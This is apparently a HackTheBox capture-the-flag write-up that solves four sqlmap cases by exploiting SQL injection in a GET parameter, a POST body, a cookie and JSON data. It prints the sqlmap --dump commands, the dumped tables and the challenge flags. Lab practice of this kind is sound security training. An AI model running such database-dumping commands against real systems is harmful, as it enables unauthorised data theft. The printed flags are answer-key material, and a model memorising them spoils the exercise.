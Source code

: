 ## Challenge 1

What's the contents of table flag2? (Case #2) 

## Solution 1

On the page there are a number of cases.

I click on `Case1` and in there it is a button `click here` - this sends me to a page where the url is `http://94.237.54.116:53907/case1.php?id=1` which tells me that it is a `GET` request.

So I put the following sqlmap command:

```sh
sqlmap -u 'http://94.237.54.116:53907/case1.php?id=1' --dump
```

And I see the result:

```sh
Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
```

But, I'm interested on the flag2 so it should be case 2. There I can put a number and submit, but the url remains `http://94.237.54.116:53907/case2.php`, so it should be a POST request. I send this request to BURP and copy the request to a file.

Then I run the sqlmap command:
```sh
sqlmap -r case2.txt --batch --dump
```

and I got the result, which is `HTB{700_much_c0n6r475_0n_p057_r3qu357}`.

## Challenge 2

What's the contents of table flag3? (Case #3)

## Solution 2

When I click now on Case 3 there is a text `Detect and exploit SQLi vulnerability in Cookie value id=1` and also a button `click here`, and when I do that, it shows me some data for a person with the `id = 1` and the url remains the same.

When I check that on Burp I see that the value is set up on the headers, on the Cookie, and now it is as `Cookie: id=1`.

Let's save the request as a file.

I execute the following sqlmap command specifying the header that we want to test and exploit:

```sh
python sqlmap.py -r ../case3.txt -p cookie --batch --dump
```

and I got the result, which shows me the flag as:

```sh
+----+------------------------------------------+
| id | content                                  |
+----+------------------------------------------+
| 1  | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
+----+------------------------------------------+
```

## Challenge 3

What's the contents of table flag4? (Case #4)

## Solution 3


When I click on Case4, it shows me the following text:

```sh
Detect and exploit SQLi vulnerability in JSON data {"id": 1}
```

Let's just use the previous method of saving the request from Burp, and starting the SQLMap on it.

so with the command:

```sh
python sqlmap.py -r ../case4.txt --dump
```

I got the result:

```sh
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{j450n_v00rh335_53nd5_6r475} |
+----+---------------------------------+
```

